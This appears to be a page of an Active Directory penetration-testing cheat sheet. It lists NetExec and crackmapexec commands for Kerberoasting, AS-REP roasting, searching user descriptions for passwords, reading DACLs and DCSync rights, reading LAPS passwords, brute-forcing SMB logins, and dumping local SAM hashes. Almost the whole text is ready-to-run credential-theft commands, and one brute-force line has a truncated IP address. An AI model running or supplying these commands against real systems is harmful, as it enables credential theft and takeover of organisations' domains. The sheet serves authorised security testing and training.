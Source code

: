 ### Kerberoasting

- `NetExec ldap 10.10.10.10 -u '' -p '' --kerberoasting kerberoasting.out`

### ASP

- `NetExec ldap 10.10.10.10 -u '' -p '' --asreproast asreproast.out`

### Users

Retrieve User Description

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M user-desc`

With keywords

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M user-desc -o KEYWORDS=pwd,admin`

Membership

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M groupmembership -o USER=bob`

### daclread

Read Grace User's DACL

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M daclread -o TARGET=bob ACTION=read`

Users with DCSync rights

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M daclread -o TARGET_DN="DC=dcname,DC=local" ACTION=read RIGHTS=DCSync`

### Local Administrator Password Solution (LAPS)

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M laps`

### Machine Account Quota (MAQ)

- `crackmapexec ldap 10.10.10.10 -u name -p pass -M maq`

# Brute Force

---

- `crackmapexec smb 10.10.10 -u name/list.txt -p pw/list.txt --continue-on-success`

# **Getting credentials**

---

Dump local SAM hashes

- `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam`
